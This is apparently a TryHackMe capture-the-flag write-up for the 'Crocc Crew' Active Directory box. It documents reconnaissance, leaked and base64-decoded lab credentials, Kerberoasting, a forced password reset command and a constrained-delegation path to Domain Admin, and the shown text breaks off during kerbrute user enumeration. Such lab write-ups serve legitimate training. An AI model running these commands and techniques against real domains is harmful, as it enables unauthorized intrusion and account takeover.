





<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Windows (AD, `COOCTUS.CORP`, child/trust involved), **Difficulty:** Insane

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Web on the file server leaks DB creds (`$password = "B4dt0th3b0n3"`). Anonymous SMB → a writable share with `passwords.txt` (base64) → usernames + creds.
2. `Visitor : GuestLogin!` (found via an RDP login screenshot) → **targeted Kerberoast** `password-reset` → crack → **`password-reset : resetpassword`**.
3. `password-reset` can **ForceChangePassword** on users. Reset **`kevin`** as a lateral-movement option:
   ```bash
   net rpc password "kevin" "P@ssw0rd123!@$" -U "COOCTUS.CORP"/"password-reset"%"resetpassword" -S 10.10.84.92
   ```
   Enumerating `password-reset`'s own LDAP attributes turns up something more direct than the `kevin`/MSSQL route, though: the account is `TRUSTED_TO_AUTH_FOR_DELEGATION` with `msDS-AllowedToDelegateTo` covering an `oakley` SPN on the DC itself.
4. Abuse that **constrained delegation** with Impacket's `getST.py` (S4U2self + S4U2proxy) to mint a service ticket impersonating **Administrator** for `oakley/DC.COOCTUS.CORP`, then `wmiexec.py -k -no-pass` straight onto the DC as Administrator, full Domain Admin, for `user.txt` and `root.txt`.

</div>

<div class="callout callout-key">

**Credentials**

- web DB: `B4dt0th3b0n3`
- `Visitor` : `GuestLogin!`
- `password-reset` : `resetpassword`
- `kevin` : `P@ssw0rd123!@$` (after reset)

</div>

---

## Full Walkthrough

Crocc Crew is rated Insane for a reason: it's less "one hard bug" and more a chain of small, individually-mundane findings (a stray `robots.txt` entry, a base64 blob on a share, a screenshot left in the room's own hint material) that only add up to something once they're all in the same notes file. I go in expecting a long session and start with the same broad recon I'd run on any AD box, an nmap sweep across the well-known ports plus `enum4linux` to see whether anonymous access gets me anywhere at all.

### Nmap scan

```bash
PORT     STATE SERVICE       REASON  VERSION
53/tcp   open  domain?       syn-ack
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-04-10 20:14:25Z)
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack
464/tcp  open  kpasswd5?     syn-ack
593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: COOCTUS
|   NetBIOS_Domain_Name: COOCTUS
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: COOCTUS.CORP
|   DNS_Computer_Name: DC.COOCTUS.CORP
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-10T20:14:51+00:00
| ssl-cert: Subject: commonName=DC.COOCTUS.CORP
| Issuer: commonName=DC.COOCTUS.CORP
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-04-09T20:09:03
| Not valid after:  2024-10-09T20:09:03
| MD5:   3c6b 7a25 ca4c 4ee5 cc4b aaa0 565d 77ac
| SHA-1: f579 7bbb 5465 2d6f 0696 2dda 973b 68a4 db51 f6fa
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQasvf4r+xq5ZHrFzkqLyyPTANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9EQy5DT09DVFVTLkNPUlAwHhcNMjQwNDA5MjAwOTAzWhcNMjQx
| MDA5MjAwOTAzWjAaMRgwFgYDVQQDEw9EQy5DT09DVFVTLkNPUlAwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQC6kUVxLDdr5qGEvzhaOKmZj1/MW30VJfNI
| OPiiSUSiuM+kX9Ww1mVDeTt0zvPN0D1zV2rn1Dg4Sli1s8t0AimzrDc9XnhsWIIa
| cWFGofZRHLbpHMMuXf/SWOBD+8PrMqZkUw4H3eBQ2zlJzWJWu5hjfnjC07V4oxdl
| hjeuhDQPkjCQwljoZMkZuDYGjRsUFKaA/IGd0QUlVpyjkf2mtPakpTax9MHFiZO8
| 3YudtyQheJ2DGMkT19y4pQySkhm5aZP8vbT5zjCLnHGd3LBEWxsG+LOlWtvMwcIO
| lGoA9dCmTlfF1lmMKdk1Y1d8DJDhPMd+pyfHwMZIO51XIkwCCifhAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAdxzcNhFt+ETjwH95FGZ8iL37un1viH8Km3rfejiIz3jU/q57ZOMC/FY9
| 9WN/i12Jtl4DQ37a11buL5c+vurLE//br7LFO+mYivD3I6QjcpJfpzljdOwAtlxS
| MRkKrcqeenyUgddb9MJCLcPiONT/N4xA1Fj5yPVE6YuUrr6WTBvb/iqouv3bcgM7
| LG39+TI444kJO9GUTx++5qC1AUcEd4Ixk1u84fZj+WiPzkVpAh06heP5shblt8xI
| odVsgo6B13TIuIRcc4w9oUsFU+DlCYRCVR5oU3gGwlxPL8Lg4A3JVmc+uDnDamKv
| o7QHswlBjkBi0MJsq1YnIhlFO3U4eg==
|_-----END CERTIFICATE-----
|_ssl-date: 2024-04-10T20:15:30+00:00; -1s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/10%Time=6616F325%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 55396/tcp): CLEAN (Timeout)
|   Check 2 (port 41845/tcp): CLEAN (Timeout)
|   Check 3 (port 10877/udp): CLEAN (Timeout)
|   Check 4 (port 63093/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-04-10T20:14:56
|_  start_date: N/A
```

I decided then to take a took with `enum4linux` to get more information. SInce we have port `88` open we can assume this is the domain controller.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 16:08]
└─[$]> enum4linux -A $host         
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Apr 10 16:14:10 2024

 =========================================( Target Information )=========================================

Target ........... crocccrew.thm
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ===========================( Enumerating Workgroup/Domain on crocccrew.thm )===========================


[E] Can't find workgroup/domain


 ===================================( Session Check on crocccrew.thm )===================================


[+] Server crocccrew.thm allows sessions using username '', password ''


 ================================( Getting domain SID for crocccrew.thm )================================

Domain Name: COOCTUS
Domain Sid: S-1-5-21-2062199590-3607821280-2073525473

[+] Host is part of a domain (not a workgroup)
```

It says that we can authenticate with '' around the domain controller. I then used `crackmapexec` to enumerate more and possibly find more hosts around the network.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 16:08]
└─[$]> crackmapexec smb 10.10.236.0/24 -u '' -p '' --shares
SMB         10.10.236.98    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB         10.10.236.98    445    DC               [+] COOCTUS.CORP\: 
SMB         10.10.236.45    445    4N6              [*] Windows 10.0 Build 17763 x64 (name:4N6) (domain:4n6) (signing:False) (SMBv1:False)
SMB         10.10.236.98    445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
SMB         10.10.236.45    445    4N6              [-] 4n6\: STATUS_ACCESS_DENIED 
SMB         10.10.236.45    445    4N6              [-] Error getting user: list index out of range
SMB         10.10.236.45    445    4N6              [-] Error enumerating shares: Error occurs while reading from remote(104)
SMB         10.10.236.201   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.10.236.201   445    RELEVANT         [-] Relevant\: STATUS_ACCESS_DENIED 
SMB         10.10.236.201   445    RELEVANT         [-] Error getting user: list index out of range
SMB         10.10.236.201   445    RELEVANT         [-] Error enumerating shares: Error occurs while reading from remote(104)
SMB         10.10.236.248   445    WPERSISTENCE     [*] Windows 10.0 Build 17763 x64 (name:WPERSISTENCE) (domain:WPERSISTENCE) (signing:False) (SMBv1:False)
SMB         10.10.236.248   445    WPERSISTENCE     [-] WPERSISTENCE\: STATUS_ACCESS_DENIED 
SMB         10.10.236.248   445    WPERSISTENCE     [-] Error getting user: list index out of range
SMB         10.10.236.248   445    WPERSISTENCE     [-] Error enumerating shares: Error occurs while reading from remote(104)
```

There are a few hosts which exist within the network. Different names and Domain controller names.



I took a little look at the webserver.

I used `feroxbuster` to enumerate the webapplication a bit more. Found site called `/backdoor.php` which looking at the source is not a shell it is just a loop to make it look like a shell. I took a look into `robots.txt` and found the following.

```bash
User-Agent: *
Disallow:
/robots.txt
/db-config.bak
/backdoor.php
```

I went over to `/db-config.bak` and found credentials. With this I then used `crackmapexec` to see if I can authenticate with anything on the Domain.

```php
<?php

$servername = "db.cooctus.corp";
$username = "C00ctusAdm1n";
$password = "B4dt0th3b0n3";

// Create connection $conn = new mysqli($servername, $username, $password);

// Check connection if ($conn->connect_error) {
die ("Connection Failed: " .$conn->connect_error);
}

echo "Connected Successfully";

?>
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 16:15]
└─[$]> crackmapexec smb 10.10.236.0/24 -u 'C00ctusAdm1n' -p 'B4dt0th3b0n3' --shares
SMB         10.10.236.98    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB         10.10.236.98    445    DC               [-] COOCTUS.CORP\C00ctusAdm1n:B4dt0th3b0n3 STATUS_LOGON_FAILURE 
SMB         10.10.236.201   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.10.236.201   445    RELEVANT         [+] Relevant\C00ctusAdm1n:B4dt0th3b0n3 
SMB         10.10.236.248   445    WPERSISTENCE     [*] Windows 10.0 Build 17763 x64 (name:WPERSISTENCE) (domain:WPERSISTENCE) (signing:False) (SMBv1:False)
SMB         10.10.236.248   445    WPERSISTENCE     [-] WPERSISTENCE\C00ctusAdm1n:B4dt0th3b0n3 STATUS_LOGON_FAILURE 
SMB         10.10.236.201   445    RELEVANT         [*] Enumerated shares
SMB         10.10.236.201   445    RELEVANT         Share           Permissions     Remark
SMB         10.10.236.201   445    RELEVANT         -----           -----------     ------
SMB         10.10.236.201   445    RELEVANT         ADMIN$                          Remote Admin
SMB         10.10.236.201   445    RELEVANT         C$                              Default share
SMB         10.10.236.201   445    RELEVANT         IPC$                            Remote IPC
SMB         10.10.236.201   445    RELEVANT         nt4wrksv        READ,WRITE  
```

I took a look into the share that I have both `READ,WRITE` to and found a file called `passwords.txt`. 

```bash
smb: \> ls
  .                                   D        0  Wed Apr 10 16:30:21 2024
  ..                                  D        0  Wed Apr 10 16:30:21 2024
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

		7735807 blocks of size 4096. 5136417 blocks available
smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> 
```

I found some encoded passwords so I decoded using `base64`.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 16:36]
└─[$]> cat passwords.txt                 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk  
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 16:15]
└─[$]> echo -n "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
Bob - !P@$$W0rD!123                                                                              ┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 16:35]
└─[$]> 
```

And here is the other one.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 16:35]
└─[$]> echo -n "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$  
```

Now with some usernames we can put them into a list and use a password spray.

I decided to nmap the other hosts now.

```bash
Nmap scan report for Relevant (10.10.236.201)
Host is up, received user-set (0.092s latency).
Scanned at 2024-04-10 16:43:29 EDT for 55s
Not shown: 995 filtered ports
Reason: 995 no-responses
PORT     STATE SERVICE       REASON  VERSION
80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  syn-ack Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2024-04-10T20:43:44+00:00
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-04-09T20:10:10
| Not valid after:  2024-10-09T20:10:10
| MD5:   9ceb 6db3 7abe 63df 6a84 45da db24 8809
| SHA-1: ac9a bc98 4f50 889b 1121 d3f0 f53f 39a2 29e4 1caa
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQIXcpf9iljYpKrC0PzO8zEjANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZWxldmFudDAeFw0yNDA0MDkyMDEwMTBaFw0yNDEwMDkyMDEw
| MTBaMBMxETAPBgNVBAMTCFJlbGV2YW50MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAp3YYYGP4icNEdCn7DpTvQm0zxNIFK8nZ3cXgjSM+5rJab+xgcgX8
| DQ8ELfDAl/1IhVzRFScJpx9XvaFFbWnGGpOVzxtQhPSEweUhJJI+MGin/HVRfJzX
| Q7WoFU4jBLVQoZczWWujFTF0PXB8OgHjwkqlKSo98SPZrevLi4zuOTjJF7P7FOfo
| gwRI+MdxscbAWmP0s1U+pm3T2pv1M1UqENOYxVg4Qb9DCjECAtZRBfodRP/4TaFF
| VpDDINem10UFsrfVVn/H8qc0VjGF2Ig7qDZY57dmdK4QfVhkS+zJxb6j3Y2nJy/r
| dRF6guF4AjZ0rXZh7XgIOFsI/PYWNnAjSwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAI+9cwt2r1Ev
| dmNaCo5oVPK/KW5Bf6T5mB2x9izivdKVP5evZAdeIrvHeN/kVuRYo919Hp+vQFYu
| ADyZTqpst3wjtvXZlzSNXFZUt750pm74nkUrNOxzQgDglmdgnCHT7rXbLiasYiO2
| 7f+YRMEt/JdaIZUkXnO7BDJxfAK5SRzh6bxWgzNADhIA91op8LDfRrOjIYSPS3zh
| H8Tfw+ZVK80zMfE24+8yqBKAbFz03EYn0iJQ0XLqyvuABaWaEWtVt6lgA1MyBDmC
| n6HazfTOno6dHMdfGAUNu5TkJ0VKymv8tg1mmlsGahAgeDfuVz09QlWeGhgEpkKe
| ojeOFLfh/3k=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-04-10T20:44:24+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m00s, deviation: 3h07m50s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 3600/tcp): CLEAN (Timeout)
|   Check 2 (port 63164/tcp): CLEAN (Timeout)
|   Check 3 (port 61580/udp): CLEAN (Timeout)
|   Check 4 (port 60441/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-04-10T13:43:45-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-04-10T20:43:46
|_  start_date: 2024-04-10T20:10:10
```

```bash
Host is up, received user-set (0.093s latency).
Scanned at 2024-04-10 16:47:15 EDT for 23s
Not shown: 995 closed ports
Reason: 995 conn-refused
PORT     STATE SERVICE       REASON  VERSION
80/tcp   open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: THM's Directory
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack
3389/tcp open  ms-wbt-server syn-ack Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WPERSISTENCE
|   NetBIOS_Domain_Name: WPERSISTENCE
|   NetBIOS_Computer_Name: WPERSISTENCE
|   DNS_Domain_Name: WPERSISTENCE
|   DNS_Computer_Name: WPERSISTENCE
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-10T20:47:30+00:00
| ssl-cert: Subject: commonName=WPERSISTENCE
| Issuer: commonName=WPERSISTENCE
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-04-09T19:08:42
| Not valid after:  2024-10-09T19:08:42
| MD5:   954d c10f 04ae ae4a 1c1f 0921 1e1c 4083
| SHA-1: b9be 3d50 5a8e 29c5 6c06 59c2 526e 62d9 9366 4913
| -----BEGIN CERTIFICATE-----
| MIIC3DCCAcSgAwIBAgIQOZmNOo7p0oxM4Q5qf8y5zzANBgkqhkiG9w0BAQsFADAX
| MRUwEwYDVQQDEwxXUEVSU0lTVEVOQ0UwHhcNMjQwNDA5MTkwODQyWhcNMjQxMDA5
| MTkwODQyWjAXMRUwEwYDVQQDEwxXUEVSU0lTVEVOQ0UwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQDQmjeWeISSsn/3rQii+jLeNiFIKvgfn8eAm5xInZth
| X7q1ACAMm9sD6wPgWKOzUS98YArOYHaXfN0sF7EvlEfsqoXbIJBPlHLoNH7L/fZd
| GCGF/iViStcz0yoqOjjgeDcF6lHW2senViVG3vFjf2b0TxemYpzzy09Aw+p9jTJu
| 1CvP7ZNgXNAgeyRU5eOGMGa1sM1Co42E5Bk5IeH0mA1t+HTR7fGUqGXSxfldDdf0
| du6fh9HmP3CIV1k459npyr+h4+2lwOyunhzgJS+/jYoTZFSTbCAKI9tynNDa8bl+
| +g6k/AJxZAGRPICkiXK4vNPC8epTD0IHh2RaE6Z187zRAgMBAAGjJDAiMBMGA1Ud
| JQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEA
| lZngxKRFaKpSjtilTEKeHOPQDaYre+UOLFR71ADk0NET9f8m790r27LK701sCJjv
| LTH2C6Sz/4IjafigmDlrWYHiIAaWOVbojzGVANaa5bnKn0ibvNoP68JniVQqWTGh
| Ifqmi8IH/7unR7V1VAazCt+0nZvOwOWkmHJk5I5OUpsiIjlMojJMb9oNSfDMvUWT
| gAkUhu7Wb2gnptknlUZIEvaccnCKqKmXNLAT/udsEItG+RGv0vTVsU2Nihw4aJ/Q
| Bvpjs5lohX+bBWaFK3XCTxTIL23wA7FZuyqkTzuqli2Zb+vYieQieMd5doQmBRWH
| rli0vV9N/aBJkhivj9YRRA==
|_-----END CERTIFICATE-----
|_ssl-date: 2024-04-10T20:47:38+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38667/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 60749/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 13971/udp): CLEAN (Timeout)
|   Check 4 (port 21525/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-04-10T20:47:32
|_  start_date: N/A
```



Interesting site....

I then went with `kerbrute` to enumerate for users

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/CroccCrew] - [Wed Apr 10, 17:21]
└─[$]> kerbrute userenum --dc 10.10.236.98 -d COOCTUS.CORP /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt  -o found_usersnames_kerbrute

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
